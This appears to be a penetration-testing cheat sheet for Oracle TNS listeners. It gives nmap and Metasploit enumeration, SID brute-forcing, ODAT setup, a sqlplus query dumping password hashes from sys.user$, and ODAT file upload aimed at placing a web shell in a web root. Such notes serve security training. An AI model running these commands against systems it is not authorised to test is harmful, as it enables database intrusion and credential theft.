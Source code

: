 # 1521, 1522-1529 - Oracle TNS

***

| **Command**                                                                                                          | **Description**                                                                                         |
| -------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `./odat.py all -s <FQDN/IP>`                                                                                         | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>`                                                                               | Log in to the Oracle database.                                                                          |
| `./odat.py utlfile -s <FQDN/IP> -d <db> -U <user> -P <pass> --sysdba --putFile C:\\insert\\path file.txt ./file.txt` | Upload a file with Oracle RDBMS.                                                                        |

```bash
nmap --script "oracle-tns-version" -p 1521 -T4 -sV $IP
msf> use auxiliary/scanner/oracle/tnslsnr_version
#apt install tnscmd10g
tnscmd10g version -p 1521 -h <IP>
```

```bash
nmap -p1521 -sV $IP --open --script oracle-sid-brute
```

## ODAT

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

## SQLplus

```bash
sqlplus username/password@$IP/XE
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;

sqlplus username/password@10.129.204.235/XE as sysdba
select name, password from sys.user$;
```

> sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory

```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

## Upload file

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

```bash
./odat.py utlfile -s $IP -d XE -U username -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
